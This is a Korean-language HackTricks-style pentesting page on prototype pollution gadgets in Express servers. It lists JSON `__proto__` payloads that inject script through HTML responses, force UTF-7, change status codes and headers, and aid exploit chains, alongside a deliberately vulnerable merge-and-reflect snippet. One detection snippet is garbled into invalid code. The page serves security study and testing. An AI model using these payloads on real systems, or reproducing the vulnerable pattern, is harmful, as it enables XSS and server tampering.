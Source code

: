 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## XSS 응답 제공

**자세한 내용은** [**원본 연구를 참조하세요**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON 콘텐츠 유형을 HTML로 변경

Express 앱에서 **JSON 콘텐츠 유형 응답**을 사용하고 JSON을 반영할 때:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
이 경우 JSON 콘텐츠 유형으로 XSS는 일반적으로 불가능합니다. 그러나 프로토타입 오염을 통해 우리는 **Express가 HTML 응답을 제공하도록 혼란스럽게 만들 수 있습니다.** 이 취약점은 애플리케이션이 **`res.send(obj)`**를 사용하고 application/json 콘텐츠 유형으로 본문 파서를 사용하는 데 의존합니다.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
**`body`** 및 **`_body`** 속성을 **오염시킴으로써**, **Express가 HTML 콘텐츠 유형을 제공하고** `_body` 속성을 반영하게 할 수 있으며, 이로 인해 저장된 XSS가 발생할 수 있습니다.

### UTF7 렌더링

Express가 **UTF-7 콘텐츠를 렌더링하도록** 만들 수 있습니다:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## 안전한 스캐닝 기술

### JSON 공백

다음 PP는 JSON 내부의 속성에 추가 공백을 추가하여 기능이 손상되지 않도록 합니다:
```json
{ "__proto__": { "json spaces": " " } }
```
그럼 반사된 JSON은 다음과 같이 보입니다:
```json
{"foo":  "bar"} -- Note the extra space
```
### 노출된 헤더

다음 PP 가젯은 서버가 HTTP 헤더를 반환하도록 합니다: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
**CORS 모듈이 설치되어 있어야 합니다**

### **OPTIONS 메서드**

다음 페이로드를 사용하면 **OPTIONS 응답에서 메서드를 숨길 수 있습니다**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **상태**

다음 PP 페이로드를 사용하여 **반환된 상태 코드**를 변경할 수 있습니다:
```json
{ "__proto__": { "status": 510 } }
```
### 오류

원시 값(예: 문자열)으로 프로토타입에 할당하면 **프로토타입은 객체여야 하므로 no-op 작업이 발생합니다**. `Object.prototype` 자체에 프로토타입 객체를 할당하려고 하면 **예외가 발생합니다**. 우리는 이 두 가지 동작을 사용하여 **프로토타입 오염이 성공했는지 감지할 수 있습니다**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Reflected Value

응용 프로그램이 응답에 객체를 포함할 때, **`__proto__`와 함께 비정상적인 이름의 속성을 생성하는 것**은 유용할 수 있습니다. 특히, **응답에 비정상적인 속성만 반환되는 경우** 이는 응용 프로그램의 취약점을 나타낼 수 있습니다:
```json
{ "unusualName": "value", "__proto__": "test" }
```
또한 Lodash와 같은 라이브러리가 사용되는 시나리오에서는 프로토타입 오염(PP)을 통해 속성을 설정하는 것과 객체 내부에서 직접 설정하는 것이 또 다른 진단 접근 방식을 제공합니다. 만약 이러한 속성이 응답에서 생략된다면, 이는 Lodash가 병합하기 전에 대상 객체에서 속성의 존재를 확인하고 있음을 시사합니다.
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express에는 **쿼리 문자열 매개변수**에서 객체를 **생성할 수 있는** 옵션이 있습니다.\
이것은 **프로토타입 오염 취약점**을 악용하기 위한 버그 **체인**에서 확실히 사용할 수 있습니다.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz`는 Node에서 객체를 생성합니다.**

## References

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
